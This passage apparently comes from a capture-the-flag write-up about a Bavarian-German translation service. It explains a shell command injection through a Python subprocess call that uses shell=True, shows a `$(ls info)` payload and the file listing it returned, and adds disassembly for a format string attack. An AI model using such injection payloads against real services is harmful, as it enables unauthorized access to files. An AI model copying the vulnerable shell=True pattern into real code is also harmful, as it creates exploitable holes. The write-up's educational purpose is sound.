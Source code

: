 ### Shell command injection

Another vulnerability way more interesting is located in the python script
itself.

All calls to the binaries is handled through a shell subprocess.
```python
def execute_shell(command, error=''):
    return subprocess.Popen(command, shell=True,stdout=subprocess.PIPE,stdin=subprocess.PIPE,stderr=subprocess.PIPE)
```

However, all parameters are provided in commands inside double quotes:
```python
if not "\"" in data:
  r = execute_shell("../ro/uebersetzer \"" + data + "\"")
```
As double quotes doesn't escape shell special characters, it's possible to
execute subcommands to get extra data. As the input of the translation binary
is also printed, we can retrieve it.

```
Welches bayrische Wort moechten sie wissen?
$(ls info)

Das Wort Bayrisch.csv.enc
Fahrzeugnummern.csv
Fahrzeugtypen.csv
Hersteller.csv
Modelljahr.csv
Bitte entschuldigen Sie, das Wort konnte nicht gefunden werden
 in deutsch.
```

## Proof of Concept

### Using shell command injection
With the shell command injection we can easily retrieve any file including
`rw/info/Bayrisch.csv.enc` and `rw/info/Fahrzeugnummern.csv`. We can also
decrypt `Bayrisch.csv.enc` with the known hard-coded AES key.

A search in both files gives us the ciphered flag and the AES key to decipher
it.

### Mixing both vulnerabilities

To have more fun, we'll use the format string vulnerability to retrieve a 
plaintext version of `rw/info/Bayrisch.csv`.

```asm
|       ,=< 0x00401293      e99a000000     jmp 0x401332               
|       |   ; JMP XREF from 0x0040133b (fcn.translate)
|      .--> 0x00401298      8b45f8         mov eax, dword [rbp - k]
|      ||   0x0040129b      4898           cdqe
|      ||   0x0040129d      488b84c540ac.  mov rax, qword [rbp + rax*8 - 0x53c0]
|      ||   0x004012a5      48898568feff.  mov qword [rbp - line], rax
|      ||   0x004012ac      488b8568feff.  mov rax, qword [rbp - line]
|      ||   0x004012b3      4889c7         mov rdi, rax
|      ||   0x004012b6      e825f5ffff     call sym.imp.strlen
|      ||   0x004012bb      898574feffff   mov dword [rbp - line_len], eax
|      ||   0x004012c1      c745fc000000.  mov dword [rbp - j], 0
|     ,===< 0x004012c8      eb18           jmp 0x4012e2               
|     |||   ; JMP XREF from 0x004012eb (fcn.translate)
|    .----> 0x004012ca      8b45fc         mov eax, dword [rbp - j]
|    ||||   0x004012cd      4863d0         movsxd rdx, eax
|    ||||   0x004012d0      488b8568feff.  mov rax, qword [rbp - line]
```

[poc]: poc.py